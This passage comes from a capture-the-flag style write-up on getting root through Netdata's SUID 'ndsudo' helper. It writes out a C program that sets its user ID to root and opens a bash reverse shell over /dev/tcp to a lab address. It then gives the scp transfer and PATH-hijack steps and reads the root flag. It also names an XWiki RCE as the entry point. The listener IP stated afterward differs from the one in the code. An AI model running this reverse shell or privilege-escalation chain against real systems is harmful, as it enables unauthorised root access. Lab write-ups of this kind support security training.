
```c
#include <unistd.h>
#include <stddef.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.122/9090 0>&1", NULL);
    return 0;
}
```


2. Compile:
    

```bash
gcc nvme.c -o nvme
```


3. Transfer to target:
    

```bash
scp nvme oliver@10.10.11.80:/tmp/
chmod +x /tmp/nvme
```


4. Set PATH:
    

```bash
export PATH=/tmp:$PATH
```


5. Trigger `ndsudo`:
    

```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

- Root shell received on listener `10.10.14.38:9090`.
    


### Root Flag

```bash
cat /root/root.txt
# ee580de<REDACTED>
```

---

## Conclusions

- **User access:** Achieved via XWiki RCE (CVE-2025-24893) and database credentials.
    
- **Privilege Escalation:** Netdata SUID binaries (`ndsudo`) with capabilities allowed full root.
    
- **Key Lessons:** Outdated software, misconfigured services, and readable sensitive configuration files significantly increased the attack surface, allowing full system compromise.